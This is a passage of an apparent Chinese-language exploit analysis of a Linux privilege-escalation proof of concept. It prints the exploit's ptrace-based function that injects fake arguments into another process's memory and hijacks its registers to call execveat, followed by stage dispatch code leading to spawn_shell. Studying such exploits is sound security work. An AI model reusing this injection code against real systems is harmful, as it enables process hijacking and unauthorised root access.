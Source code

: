 exp 中 attack 上 task B 之后，使用了一个 `force_exec_and_wait` 函数<br>
我们来看看它干了什么

```
static void force_exec_and_wait(pid_t pid, int exec_fd, char *arg0) `{`
    struct user_regs_struct regs;                                         
    struct iovec iov = `{` .iov_base = &amp;regs, .iov_len = sizeof(regs) `}`;   
    // 在 syscall 调用时停下    
    ptrace(PTRACE_SYSCALL, pid, 0, NULL);                           
    waitpid(pid, &amp;dummy_status, 0);
    // 获取 registers 
    ptrace(PTRACE_GETREGSET, pid, NT_PRSTATUS, &amp;iov);
    /* set up indirect arguments */   
    // 在栈上构造假的数据，作为后面 execve 的参数    
    unsigned long scratch_area = (regs.rsp - 0x1000) &amp; ~0xfffUL;          
    struct injected_page `{`                                                
      unsigned long argv[2];                                              
      unsigned long envv[1];                                              
      char arg0[8];                                                       
      char path[1];                                                       
    `}` ipage = `{`                                                           
      .argv = `{` scratch_area + offsetof(struct injected_page, arg0) `}`     
    `}`;                                                                    
    strcpy(ipage.arg0, arg0); 
     // 写 task B 的 内存    
    for (int i = 0; i &lt; sizeof(ipage)/sizeof(long); i++) `{`                
      unsigned long pdata = ((unsigned long *)&amp;ipage)[i];                 
      ptrace(PTRACE_POKETEXT, pid, scratch_area + i * sizeof(long),  (void*)pdata);  
    `}`                                                                     
    /* execveat(exec_fd, path, argv, envv, flags) */  
    // 修改寄存器，换成 execveat 系统调用    
    regs.orig_rax = __NR_execveat;                                        
    regs.rdi = exec_fd;                                                   
    regs.rsi = scratch_area + offsetof(struct injected_page, path);       
    regs.rdx = scratch_area + offsetof(struct injected_page, argv);       
    regs.r10 = scratch_area + offsetof(struct injected_page, envv);       
    regs.r8 = AT_EMPTY_PATH;       
    ptrace(PTRACE_SETREGSET, pid, NT_PRSTATUS, &amp;iov);
    ptrace(PTRACE_DETACH, pid, 0, NULL);
    waitpid(pid, &amp;dummy_status, 0);

`}`
```

上面代码的逻辑如下
1. 获取 task B 当前的寄存器
1. 在 stack 上构造假的数据，作为系统调用的参数
1. 更改 寄存器的值，执行 `execveat`系统调用
task B 执行 `execveat` 时传入的 `exec_fd` 是 0， 对应我们前面看到的`dup2(self_fd,0);`, 也就是重新运行一遍poc了，于是逻辑又会从 main 函数开始，这个时候 task B 的 `argv[0]` 已经被改成 `stage2` 了,这个时候就会进入前面main 函数入口的 strcmp 的逻辑

```
if(strcmp(argv[0],"stage2")==0)`{`
        return middle_stage2();
    `}`
    if(strcmp(argv[0],"stage3")==0)`{`
        return spawn_shell();
    `}`
```

